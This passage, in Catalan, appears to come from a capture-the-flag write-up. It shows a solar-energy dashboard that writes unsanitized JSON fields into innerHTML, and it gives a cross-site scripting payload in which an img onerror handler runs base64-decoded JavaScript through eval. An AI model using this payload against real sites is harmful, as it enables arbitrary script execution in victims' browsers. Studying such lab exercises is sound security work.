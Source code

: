 ![alt text](../../../assets/images/solar/image-5-old.png)

Enviem una dada de consum molt alt i veiem com les barres del gràfic es mouen. Al codi de la pàgina, observem que podem realitzar un XSS (Cross-Site Scripting), ja que s'utilitza només `innerHTML` sense sanititzar el contingut de les propietats `solarEnergy` i `consumedEnergy` del JSON enviat.

```javascript
...
            // Update labels with specific colors
            document.getElementById('solarEnergyLabel').innerHTML = `<span class="energy-value solar">${solarEnergy} kWh</span>`;
            document.getElementById('consumedEnergyLabel').innerHTML = `<span class="energy-value consumed">${consumedEnergy} kWh</span>`;
...
```

Podem enviar un JSON com el següent i executar qualsevol JavaScript a la pàgina `dashboard.php` a la part del client/navegador.

```json
{
  "solarEnergy": "<img src=x onerror=eval(atob(\/[base64encodeJavascriptCode]\/.source)); />",
  "consumedEnergy": 15
}
```
